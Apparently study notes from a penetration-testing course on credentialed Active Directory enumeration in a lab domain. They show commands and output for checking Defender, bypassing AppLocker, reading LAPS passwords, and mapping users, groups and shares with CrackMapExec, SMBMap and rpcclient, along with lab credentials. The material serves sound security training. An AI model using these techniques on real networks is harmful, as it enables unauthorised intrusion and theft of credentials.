




- Credentialed Enumeration & LOTL
Credentialed Enumeration & LOTL
Enumerating Security Controls
After gaining a foothold, you could use this access to get a feeling for the defensive state of the hosts, enumerate the domain further now that your visibility is not as restricted, and, if necessary, work at "living off the land" by using tools that exist natively on the hosts. It is important to understand the security controls in place in an organization as the products in use can affect the tools you use for your AD enum, as well as exploitation and post-exploitation. Understanding the protections you may be up against will help inform your decisions regarding tool usage and assist you in planning your course of action by either avoiding or modifying certain tools. Some organizations have more stringent protections than others, and some do not apply security controls equally throughout. There may be policies applied to certain machines that can make your enumeration more difficult that are not applied on other machines.
Windows Defender
... has greatly improved over the years and, by default, will block tools such as PowerView. There are ways to bypass these protections. You can use the built-in PowerShell cmdlet Get-MpComputerStatus to get the current Defender status. Here, you can see that the RealTimeProtectionEnabled parameter is set to True, which means Defender is enabled on the system.
PS C:\htb> Get-MpComputerStatus
AMEngineVersion : 1.1.17400.5
AMProductVersion : 4.10.14393.0
AMServiceEnabled : True
AMServiceVersion : 4.10.14393.0
AntispywareEnabled : True
AntispywareSignatureAge : 1
AntispywareSignatureLastUpdated : 9/2/2020 11:31:50 AM
AntispywareSignatureVersion : 1.323.392.0
AntivirusEnabled : True
AntivirusSignatureAge : 1
AntivirusSignatureLastUpdated : 9/2/2020 11:31:51 AM
AntivirusSignatureVersion : 1.323.392.0
BehaviorMonitorEnabled : False
ComputerID : 07D23A51-F83F-4651-B9ED-110FF2B83A9C
ComputerState : 0
FullScanAge : 4294967295
FullScanEndTime :
FullScanStartTime :
IoavProtectionEnabled : False
LastFullScanSource : 0
LastQuickScanSource : 2
NISEnabled : False
NISEngineVersion : 0.0.0.0
NISSignatureAge : 4294967295
NISSignatureLastUpdated :
NISSignatureVersion : 0.0.0.0
OnAccessProtectionEnabled : False
QuickScanAge : 0
QuickScanEndTime : 9/3/2020 12:50:45 AM
QuickScanStartTime : 9/3/2020 12:49:49 AM
RealTimeProtectionEnabled : True
RealTimeScanDirection : 0
PSComputerName :
AppLocker
An application whitelist is a list of approved software applications or executables that are allowed to be present and run on a system. The goal is to protect the environment from harmful malware and unapproved software that does not align with the specific business needs of an organization. AppLocker is Microsoft's application whitelisting solution and gives system admins control over which applications and files users can run. It provides granular control over executables, scripts, Windows installer files, DLLs, packaged apps, and packed app installers. It is common for organizations to block cmd.exe and PowerShell.exe and write access to certain directories, but this can all be bypassed. Organizations also often focus on blocking the PowerShell.exe executable, but forget about the other PowerShell executable locations such as %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe or PowerShell_ISE.exe. You can see that this is the case in the AppLocker rules shown below. All Domain Users are disallowed from running the 64-bit PowerShell executable located at %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe. So, you can merely call it from other locations. Sometimes, you run into more stringent AppLocker policies that require more creativity to bypass.
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
PathConditions : {%SYSTEM32%\WINDOWSPOWERSHELL\V1.0\POWERSHELL.EXE}
PathExceptions : {}
PublisherExceptions : {}
HashExceptions : {}
Id : 3d57af4a-6cf8-4e5b-acfc-c2c2956061fa
Name : Block PowerShell
Description : Blocks Domain Users from using PowerShell on workstations
UserOrGroupSid : S-1-5-21-2974783224-3764228556-2640795941-513
Action : Deny
PathConditions : {%PROGRAMFILES%\*}
PathExceptions : {}
PublisherExceptions : {}
HashExceptions : {}
Id : 921cc481-6e17-4653-8f75-050b80acca20
Name : (Default Rule) All files located in the Program Files folder
Description : Allows members of the Everyone group to run applications that are located in the Program Files folder.
UserOrGroupSid : S-1-1-0
Action : Allow
PathConditions : {%WINDIR%\*}
PathExceptions : {}
PublisherExceptions : {}
HashExceptions : {}
Id : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name : (Default Rule) All files located in the Windows folder
Description : Allows members of the Everyone group to run applications that are located in the Windows folder.
UserOrGroupSid : S-1-1-0
Action : Allow
PathConditions : {*}
PathExceptions : {}
PublisherExceptions : {}
HashExceptions : {}
Id : fd686d83-a829-4351-8ff4-27c7de5755d2
Name : (Default Rule) All files
Description : Allows members of the local Administrators group to run all applications.
UserOrGroupSid : S-1-5-32-544
Action : Allow
PowerShell Constrained Language Mode
PowerShell Constrained Language Mode locks down many of the features needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more. You can quickly enumerate whether you are in Full Language Mode or Constrained Language Mode.
PS C:\htb> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
LAPS
The Microsoft Local Administrator Password Solution (LAPS) is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement. You can enumerate what domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. The LAPSToolkit greatly facilitates this with several functions. One is parsing ExtendedRights for all computers with LAPS enabled. This will show groups specifically delegated to read LAPS passwords, which are often users in protected groups. An account that has joined a computer to a domain receives "All Extended Rights" over that host, and this right gives the account the ability to read passwords. Enumeration may show a user account that can read the LAPS password on a host. This can help you target specific AD users who can read LAPS passwords.
PS C:\htb> Find-LAPSDelegatedGroups
OrgUnit Delegated Groups
------- ----------------
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=Web Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=Web Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=SQL Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=SQL Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\Domain Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\LAPS Admins
OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\Domain Admins
OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\LAPS Admins
OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\Domain Admins
OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\LAPS Admins
OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\Domain Admins
OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\LAPS Admins
OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\Domain Admins
OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\LAPS Admins
The Find-AdmPwdExtendedRights checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights". Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for.
PS C:\htb> Find-AdmPwdExtendedRights
ComputerName Identity Reason
------------ -------- ------
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins Delegated
SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins Delegated
WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins Delegated
You can use the Get-LAPSComputers function to search for computers that have LAPS enabled when passwords expire, and even randomized passwords in cleartext if your user has access.
PS C:\htb> Get-LAPSComputers
ComputerName Password Expiration
------------ -------- ----------
DC01.INLANEFREIGHT.LOCAL 6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30
SQL01.INLANEFREIGHT.LOCAL 9G#f;p41dcAe,s 09/26/2020 00:30:09
WS01.INLANEFREIGHT.LOCAL TCaG-F)3No;l8C 09/26/2020 00:46:04
Credentialed Enum - from Linux
CrackMapExec
... is a powerful toolset to help with assessing AD environments. It utilizes packages from the Impacket and PowerSploit toolkits to perform its functions.
d41y@htb[/htb]$ crackmapexec -h
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT] [--jitter INTERVAL] [--darrell]
[--verbose]
{mssql,smb,ssh,winrm} ...
______ .______ ___ ______ __ ___ .___ ___. ___ .______ _______ ___ ___ _______ ______
/ || _ \ / \ / || |/ / | \/ | / \ | _ \ | ____|\ \ / / | ____| / |
| ,----'| |_) | / ^ \ | ,----'| ' / | \ / | / ^ \ | |_) | | |__ \ V / | |__ | ,----'
| | | / / /_\ \ | | | < | |\/| | / /_\ \ | ___/ | __| > < | __| | |
| `----.| |\ \----. / _____ \ | `----.| . \ | | | | / _____ \ | | | |____ / . \ | |____ | `----.
\______|| _| `._____|/__/ \__\ \______||__|\__\ |__| |__| /__/ \__\ | _| |_______|/__/ \__\ |_______| \______|
A swiss army knife for pentesting networks
Forged by @byt3bl33d3r using the powah of dank memes
Version: 5.0.2dev
Codename: P3l1as
optional arguments:
-h, --help show this help message and exit
-t THREADS set how many concurrent threads to use (default: 100)
--timeout TIMEOUT max timeout in seconds of each thread (default: None)
--jitter INTERVAL sets a random delay between each connection (default: None)
--darrell give Darrell a hand
--verbose enable verbose output
protocols:
available protocols
{mssql,smb,ssh,winrm}
mssql own stuff using MSSQL
smb own stuff using SMB
ssh own stuff using SSH
winrm own stuff using WINRM
Ya feelin' a bit buggy all of a sudden?
You can see that you can use the tool with MSSQL, SMB, SSH, and WinRm credentials.
d41y@htb[/htb]$ crackmapexec smb -h
usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]] [-k]
[--aesKey AESKEY [AESKEY ...]] [--kdcHost KDCHOST]
[--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT] [-M MODULE]
[-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {https,http}] [--server-host HOST]
[--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce] [-d DOMAIN | --local-auth] [--port {139,445}]
[--share SHARE] [--smb-server-port SMB_SERVER_PORT] [--gen-relay-list OUTPUT_FILE] [--continue-on-success]
[--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions] [--disks] [--loggedon-users] [--users [USER]]
[--groups [GROUP]] [--local-groups [GROUP]] [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY]
[--wmi-namespace NAMESPACE] [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
[--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
[--put-file FILE FILE] [--get-file FILE FILE] [--exec-method {atexec,smbexec,wmiexec,mmcexec}] [--force-ps32]
[--no-output] [-x COMMAND | -X PS_COMMAND] [--obfs] [--amsi-bypass FILE] [--clear-obfscripts]
[target ...]
positional arguments:
target the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets, NMap XML or
.Nessus file(s)
optional arguments:
-h, --help show this help message and exit
-id CRED_ID [CRED_ID ...]
database credential ID(s) to use for authentication
-u USERNAME [USERNAME ...]
username(s) or file(s) containing usernames
-p PASSWORD [PASSWORD ...]
password(s) or file(s) containing passwords
-k, --kerberos Use Kerberos authentication from ccache file (KRB5CCNAME)
<SNIP>
CME offers a help menu for each protocol. Be sure to review the entire help menu and all possible options.
Domain User Enum
You start by pointing CME at the DC and using the credentials for the forend user to retrieve a list of all domain users. Notice when it provides you the user information, it includes data points such as the badPwdCount attribute. This is helpful when performing actions like targeted password spraying. You could build a target user list filtering out any users with their badPwdCount attribute above 0 to be extra careful not to lock any accounts out.
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] Enumerated domain user(s)
SMB 172.16.5.5 445 ACADEMY-EA-DC01 INLANEFREIGHT.LOCAL\administrator badpwdcount: 0 baddpwdtime: 2022-03-29 12:29:14.476567
SMB 172.16.5.5 445 ACADEMY-EA-DC01 INLANEFREIGHT.LOCAL\guest badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB 172.16.5.5 445 ACADEMY-EA-DC01 INLANEFREIGHT.LOCAL\lab_adm badpwdcount: 0 baddpwdtime: 2022-04-09 23:04:58.611828
SMB 172.16.5.5 445 ACADEMY-EA-DC01 INLANEFREIGHT.LOCAL\krbtgt badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB 172.16.5.5 445 ACADEMY-EA-DC01 INLANEFREIGHT.LOCAL\htb-student badpwdcount: 0 baddpwdtime: 2022-03-30 16:27:41.960920
SMB 172.16.5.5 445 ACADEMY-EA-DC01 INLANEFREIGHT.LOCAL\avazquez badpwdcount: 3 baddpwdtime: 2022-02-24 18:10:01.903395
<SNIP>
Domain Group Enum
You can also obtain a complete listing of domain groups. You should save all of your output to files to easily access it again later for reporting or use with other tools.
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] Enumerated domain group(s)
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Administrators membercount: 3
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Users membercount: 4
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Guests membercount: 2
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Print Operators membercount: 0
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Backup Operators membercount: 1
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Replicator membercount: 0
<SNIP>
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Domain Admins membercount: 19
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Domain Users membercount: 0
<SNIP>
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Contractors membercount: 138
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Accounting membercount: 15
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Engineering membercount: 19
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Executives membercount: 10
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Human Resources membercount: 36
<SNIP>
The above snippet lists the groups within the domain and the number of users in each. The output also shows the built-in groups on the DC, such as Backup Operators. You can begin to note down groups of interest. Take note of key groups like Administrators, Domain Admins, Executives, any groups that may contain privileged IT admins, etc. These groups will likely contain users with elevated privileges worth targeting during your assessment.
Logged On Users
You can also use CME to target other hosts. Check out what appears to be a file server to see what users are logged in currently.
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
SMB 172.16.5.130 445 ACADEMY-EA-FILE [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-FILE) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB 172.16.5.130 445 ACADEMY-EA-FILE [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 (Pwn3d!)
SMB 172.16.5.130 445 ACADEMY-EA-FILE [+] Enumerated loggedon users
SMB 172.16.5.130 445 ACADEMY-EA-FILE INLANEFREIGHT\clusteragent logon_server: ACADEMY-EA-DC01
SMB 172.16.5.130 445 ACADEMY-EA-FILE INLANEFREIGHT\lab_adm logon_server: ACADEMY-EA-DC01
SMB 172.16.5.130 445 ACADEMY-EA-FILE INLANEFREIGHT\svc_qualys logon_server: ACADEMY-EA-DC01
SMB 172.16.5.130 445 ACADEMY-EA-FILE INLANEFREIGHT\wley logon_server: ACADEMY-EA-DC01
<SNIP>
You see that many users are logged into this server which is very interesting. You can also see that your user forend is a local admin because Pwn3d! appears after the tool successfully authenticates to the target host. A host like this may be used as a jump host or similar by administrative users. You can see that the user svc_qualys is logged in, who you earlier identified as a domain admin. It could be an easy win if you can steal this user's credentials from memory or impersonate them.
Share Searching
You can use the --shares flag to enumerate available shares on the remote host and the level of access your user account has to each share.
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] Enumerated shares
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Share Permissions Remark
SMB 172.16.5.5 445 ACADEMY-EA-DC01 ----- ----------- ------
SMB 172.16.5.5 445 ACADEMY-EA-DC01 ADMIN$ Remote Admin
SMB 172.16.5.5 445 ACADEMY-EA-DC01 C$ Default share
SMB 172.16.5.5 445 ACADEMY-EA-DC01 Department Shares READ
SMB 172.16.5.5 445 ACADEMY-EA-DC01 IPC$ READ Remote IPC
SMB 172.16.5.5 445 ACADEMY-EA-DC01 NETLOGON READ Logon server share
SMB 172.16.5.5 445 ACADEMY-EA-DC01 SYSVOL READ Logon server share
SMB 172.16.5.5 445 ACADEMY-EA-DC01 User Shares READ
SMB 172.16.5.5 445 ACADEMY-EA-DC01 ZZZ_archive READ
You see several shares available to you with READ access. The Department Shares, User Shares, and ZZZ_archive shares would be worth digging into further as they may contain sensitive data such as passwords or PII. Next, you can dig into the shares and spider each directory looking for files. The module spider_plus will dig through each readable share on the host and list all readable files.
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2
SPIDER_P... 172.16.5.5 445 ACADEMY-EA-DC01 [*] Started spidering plus with option:
SPIDER_P... 172.16.5.5 445 ACADEMY-EA-DC01 [*] DIR: ['print$']
SPIDER_P... 172.16.5.5 445 ACADEMY-EA-DC01 [*] EXT: ['ico', 'lnk']
SPIDER_P... 172.16.5.5 445 ACADEMY-EA-DC01 [*] SIZE: 51200
SPIDER_P... 172.16.5.5 445 ACADEMY-EA-DC01 [*] OUTPUT: /tmp/cme_spider_plus
In the above command, you ran the spider against the Department Shares. When completed, CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>. Below you can see a portion of the JSON output. You could dig around for interesting files such as web.config files or scripts that may contain passwords. If you wanted to dig further, you could pull those files to see what all resides within, perhaps finding some hardcoded credentials or other sensitive information.
d41y@htb[/htb]$ head -n 10 /tmp/cme_spider_plus/172.16.5.5.json
{
"Department Shares": {
"Accounting/Private/AddSelect.bat": {
"atime_epoch": "2022-03-31 14:44:42",
"ctime_epoch": "2022-03-31 14:44:39",
"mtime_epoch": "2022-03-31 15:14:46",
"size": "278 Bytes"
},
"Accounting/Private/ApproveConnect.wmf": {
"atime_epoch": "2022-03-31 14:45:14",
<SNIP>
SMBMap
... is great for enumerating SMB shares from a Linux attack host. It can be used to gather a listing of shares, permissions, and share contents if accessible. Once access is obtained, it can be used to download and upload files and execute commands.
Like CME, you can use SMBMap and set of domain user credentials to check for accessible shares on remote systems. As with other tools, you can type the command smbmap -h to view the tool usage menu. Aside from listing shares, you can use SMBMap to recursively list directories, list the contents of a directory, search file contents, and more. This can be especially useful when pillaging shares for useful information.
Checking Access
d41y@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
[+] IP: 172.16.5.5:445 Name: inlanefreight.local
Disk Permissions Comment
---- ----------- -------
ADMIN$ NO ACCESS Remote Admin
C$ NO ACCESS Default share
Department Shares READ ONLY
IPC$ READ ONLY Remote IPC
NETLOGON READ ONLY Logon server share
SYSVOL READ ONLY Logon server share
User Shares READ ONLY
ZZZ_archive READ ONLY
The above will tell you what your user can access and their permission levels. Like your resulsts from CME, you see that the user forend has no access to the DC via the ADMIN$ or C$ shares, but does have read access over IPC$, NETLOGON, and SYSVOL which is the default in any domain. The other non-standard shares, such as Department Shares and the user and archive shares, are most interesting. Do a recursive listing of the dirs in the Department Shares share.
Recursive List of all Dirs
d41y@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
[+] IP: 172.16.5.5:445 Name: inlanefreight.local
Disk Permissions Comment
---- ----------- -------
Department Shares READ ONLY
.\Department Shares\*
dr--r--r-- 0 Thu Mar 31 15:34:29 2022 .
dr--r--r-- 0 Thu Mar 31 15:34:29 2022 ..
dr--r--r-- 0 Thu Mar 31 15:14:48 2022 Accounting
dr--r--r-- 0 Thu Mar 31 15:14:39 2022 Executives
dr--r--r-- 0 Thu Mar 31 15:14:57 2022 Finance
dr--r--r-- 0 Thu Mar 31 15:15:04 2022 HR
dr--r--r-- 0 Thu Mar 31 15:15:21 2022 IT
dr--r--r-- 0 Thu Mar 31 15:15:29 2022 Legal
dr--r--r-- 0 Thu Mar 31 15:15:37 2022 Marketing
dr--r--r-- 0 Thu Mar 31 15:15:47 2022 Operations
dr--r--r-- 0 Thu Mar 31 15:15:58 2022 R&D
dr--r--r-- 0 Thu Mar 31 15:16:10 2022 Temp
dr--r--r-- 0 Thu Mar 31 15:16:18 2022 Warehouse
<SNIP>
As the recursive listing dives deeper, it will show you the output of all subdirs within the higher-level dirs. The use of --dir-only provided only the output of all directories and did not list all files.
rpcclient
... is a handy tool created for use with the Samba protocol and to provide extra functionality via MS-RPC. It can enumerate, add, change, and even remove objects from AD. It is highly versatile; you just have to find the correct command to issue for what you want to accomplish.
Due to SMB NULL sessions on some of your hosts, you can perform authenticated or unauthenticated enumeration using rpcclient. Below is an example of the unauthenticated way:
rpcclient -U "" -N 172.16.5.5
The above will provide you with a bound connection, and you should be greeted with a new prompt to start unleashing the power of rpcclient.
RID
While looking at users in rpcclient, you may notice a field called rid: beside each user. A Relative Identifier is a unique identifier utilized by Windows to track and identify objects.
note
When an object is created within a domain, the SID will be combined with a RID to make a unique value used to represent the object. So a domain user with the SID of S-1-5-21-3842939050-3880317879-2865463114 and a RID:[0x457], will have a full user SID of: S-1-5-21-3842939050-3880317879-2865463114-1111.
However, there are accounts that you will notice that have the same RID regardless of what host you are on. Accounts like the built-in Administrator for a domain will have a RID:[0x1f4], which, when converted to a decimal value, equals 500. The built-in Administrator account will always have this value.
Since this value is unique to an object, you can use it to enumerate further information about it from the domain.
rpcclient $> queryuser 0x457
User Name : htb-student
Full Name : Htb Student
Home Drive :
Dir Drive :
Profile Path:
Logon Script:
Description :
Workstations:
Comment :
Remote Dial :
Logon Time : Wed, 02 Mar 2022 15:34:32 EST
Logoff Time : Wed, 31 Dec 1969 19:00:00 EST
Kickoff Time : Wed, 13 Sep 30828 22:48:05 EDT
Password last set Time : Wed, 27 Oct 2021 12:26:52 EDT
Password can change Time : Thu, 28 Oct 2021 12:26:52 EDT
Password must change Time: Wed, 13 Sep 30828 22:48:05 EDT
unknown_2[0..31]...
user_rid : 0x457
group_rid: 0x201
acb_info : 0x00000010
fields_present: 0x00ffffff
logon_divs: 168
bad_password_count: 0x00000000
